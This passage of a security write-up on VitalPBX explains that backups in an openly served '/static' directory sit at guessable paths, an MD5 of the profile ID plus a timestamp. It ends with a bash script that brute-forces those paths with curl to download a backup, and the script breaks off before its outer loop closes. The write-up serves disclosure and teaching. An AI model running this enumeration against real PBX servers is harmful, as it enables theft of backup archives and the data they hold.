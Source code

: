 If we read it from bottom to top, we learn that the
`/static` prefix in the address is in fact an alias which
corresponds to the `/var/lib/vitalpbx/static` directory. Then
(or rather *before*) that this directory is in free access
(`Require all granted`). No PHP code, no configuration line
or `.htaccess` file will temper this lack of access
control.

> If we know the address of a file, we can access it without
> constraint.

The only consolation is that the server does not allow directory
listing; if you access
`https://monipbx.mynetwork.lan/static/backup/`, the system
will return a *403 - Forbidden* error (you do not have the right
to see the contents of the directory).

## Deterministic address

We must therefore guess the rest of the address of the backup
files…

```
c4ca4238a0b923820dcc509a6f75849b/vitalpbx-1650260415.tar
```

* **`c4ca4238a0b923820dcc509a6f75849b`**,
  is easy to find, just paste it into any search engine to find out that
  it is the MD5 sum of the string “1” (the profile ID of the backup). By
  doing the test with new profiles we obtain, each time, the MD5 of their
  identifier, `c81e728d9d4c2f636f067f89cc14862c` for 2, then
  `eccbc87e4b5ce2fe28308fd9f2a7baf3` for 3, and so on.
* **`1650260415`** is more subtle (search
  engines won’t help you) but it’s just the timestamp of the file; be the
  number of seconds elapsed since January 1st, 1970 when the
  file was written to disk…

All you need is to find a profile identifier and a valid timestamp,
two pieces of information whose values follow very simple sequences.

> One can enumerate profiles (consecutive integers) and timestamps
> (countdown from *now*) until a backup file is found.

## Exploitation

Rather than testing these combinations by hand, we can automate all
of this. Here is a solution in bash 😉. In short, we test all timestamps
over the last 24 hours, for the first 10 profiles. And we quit the
script as soon as `curl` has found something.

```
#!/bin/bash

now=$(date +%s)
past=$(date -d "1 day ago" +%s)

for profile in $(seq 1 10) ; do
    md5=$(echo -n $profile | md5sum | sed -e "s/ .*//")

    curl -sk "https://localhost/static/backup/$md5/" \
        -o /dev/null -w "%{http_code}" \
        | grep -q "404" && continue

    for timestamp in $(seq $now -1 $past) ; do
        curl -fJOsk "https://monipbx.monreseau.lan/static/backup/$md5/vitalpbx-$timestamp.tar" && exit 1
    done
```